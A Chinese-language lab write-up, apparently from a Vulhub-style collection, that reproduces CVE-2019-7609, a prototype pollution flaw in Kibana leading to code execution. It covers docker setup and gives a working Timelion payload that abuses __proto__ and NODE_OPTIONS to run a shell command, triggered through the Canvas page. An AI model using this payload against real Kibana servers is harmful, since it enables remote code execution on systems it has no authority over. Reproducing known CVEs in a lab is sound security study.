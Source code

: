 # Kibana 原型链污染导致任意代码执行漏洞 CVE-2019-7609

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意JavaScript代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## 环境搭建

Vulhub启动环境前，需要先在Docker主机上执行如下命令，修改`vm.max_map_count`配置为262144：

```
sysctl -w vm.max_map_count=262144
```

之后，执行如下命令启动Kibana 6.5.4和Elasticsearch 6.8.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana页面。

## 漏洞复现

原型链污染发生在“Timelion”页面，我们填入如下Payload：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![image-20220226195128526](./images/202202261951761.png)

成功后，再访问“Canvas”页面触发命令`/bin/touch /tmp/success`，可见`/tmp/success`已成功创建：

![image-20220226195304443](./images/202202261953511.png)